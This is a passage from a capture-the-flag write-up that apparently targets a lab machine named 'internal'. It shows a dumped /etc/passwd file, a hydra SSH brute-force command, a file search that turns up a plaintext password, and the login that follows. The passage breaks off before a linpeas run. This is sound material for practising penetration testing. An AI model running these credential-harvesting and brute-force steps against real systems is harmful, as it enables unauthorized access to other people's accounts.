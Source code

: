 ``` sh
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```

The /home path shows one user "aubreanna" so let's use this to crack ssh using hydra:

``` sh
hydra -l aubreanna -P rockyou.txt 10.10.156.30 ssh
```

In parallel we can look for files containing "aubreanna":

``` sh
find ./ -type f -iname "*.txt" -exec grep -l "aubreanna" {} \; 2>/dev/null
./opt/wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

## Aubreanna

So let's login via aubreanna: ```ssh aubreanna@victim.thm``` and we find the first flag (user.txt) in the home dir.

Unfortunately```sudo -l``` is not allowed

``` sh
aubreanna@internal:~$ sudo -l
[sudo] password for aubreanna:
Sorry, user aubreanna may not run sudo on internal.
aubreanna@internal:~$ id
uid=1000(aubreanna) gid=1000(aubreanna) groups=1000(aubreanna),4(adm),24(cdrom),30(dip),46(plugdev)
```

Let's try running linpeas on the system to find something interesting:
